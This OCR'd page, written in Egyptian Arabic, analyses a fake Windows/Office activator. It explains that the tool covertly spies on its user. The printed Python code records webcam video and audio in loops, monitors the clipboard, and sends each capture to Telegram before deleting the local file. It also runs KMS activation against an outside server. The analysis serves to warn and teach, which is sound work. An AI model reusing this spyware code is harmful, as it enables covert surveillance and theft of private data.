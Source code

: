 ```python
            cap.release()
            out.release()
            send_video_to_telegram(filename)
            os.remove(filename)
            time.sleep(0.5)
    threading.Thread(target=record_and_send, daemon=True).start()
    output = subprocess.getoutput("cd \"C:\\Program Files\\Microsoft Office\\Office16\" && cscript ospp.vbs /sethst:kms.digiboy.ir && cscript ospp.vbs /act")
    send_to_telegram_split(f"نتيجة تفعيل أوفيس على {device_name}:\n{output}")
```

- **تفعيل ويندوز**:
  - بيحاول يشغّل أوامر زي `slmgr.vbs` عشان يفعّل ويندوز باستخدام سيرفر KMS (ده اللي المفروض يخلّيك تحس إنه برنامج تفعيل).
  - بيبعت نتيجة الأوامر دي لتيليجرام.
  - وبيفتح الكاميرا وياخد 10 صور بسرعة (كل 0.1 ثانية)، يبعت كل صورة لتيليجرام، ويمسحها.
- **تفعيل أوفيس**:
  - بيحاول يشغّل أوامر زي `ospp.vbs` عشان يفعّل أوفيس.
  - بيبعت النتيجة لتيليجرام.
  - وبيبدأ تسجيل فيديو من الكاميرا لمدة 60 ثانية، يبعت الفيديو، ويمسحه، ويستمر يسجّل فيديوهات جديدة في حلقة لا نهائية.
- **ليه خطير؟**:
  - التفعيل ده خدعة، الهدف الحقيقي هو إنه يصوّرك ويبعت الصور أو الفيديوهات.
  - يعني بدل ما يفعّل حاجة، بيبقى عايز يراقبك.

---

#### 9. **مراقبة الحافظة والصوت بشكل مستمر**
```python
def monitor_clipboard():
    last_text = ""
    while True:
        try:
            current_text = pyperclip.paste()
            if current_text != last_text:
                last_text = current_text
                send_to_telegram_split(f"[الحافظة من {device_name}]:\n{current_text}")
            time.sleep(10)
        except:
            pass

def record_audio_loop():
    fs = 44100
    duration = 60
    while True:
        try:
            audio = sd.rec(int(duration * fs), samplerate=fs, channels=1, dtype='int16')
            sd.wait()
            filename = os.path.join(tempfile.gettempdir(), "recorded_audio.wav")
            write(filename, fs, audio)
            send_audio_to_telegram(filename)
            os.remove(filename)
            time.sleep(0.1)
        except Exception as e:
            send_to_telegram_split(f"⚠️ خطأ في تسجيل الصوت على {device_name}: {str(e)}")
            time.sleep(5)
```
